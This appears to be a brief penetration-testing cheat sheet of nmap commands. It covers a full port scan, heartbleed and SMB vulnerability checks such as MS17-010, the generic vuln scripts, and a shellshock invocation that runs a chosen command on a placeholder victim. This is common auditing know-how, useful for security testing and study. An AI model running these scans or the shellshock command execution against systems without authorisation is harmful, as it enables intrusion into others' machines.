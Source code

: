 - [port scan](#nmap)
- [heartbleed](#heartbleed)
- [vuln](#vuln)
- [smb](#smb)
- [shellshock](#shellshock)

### nmap port scan
```
nmap -p- --min-rate 10000 10.10.10.10
```

### heartbleed
```
nmap -p [victim_port] --script ssl-heartbleed [victim_ip]
```

### vuln
```
nmap -p [victim_port] --script vuln [victim_ip]
```

### smb
```
nmap -p [victim_port] -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse [victim_ip]
```

### shellshock
```
nmap --script -p [victim_port] http-shellshock --script-args uri=[/vuln/path] cmd=[yours_command] [victim_ip]
```
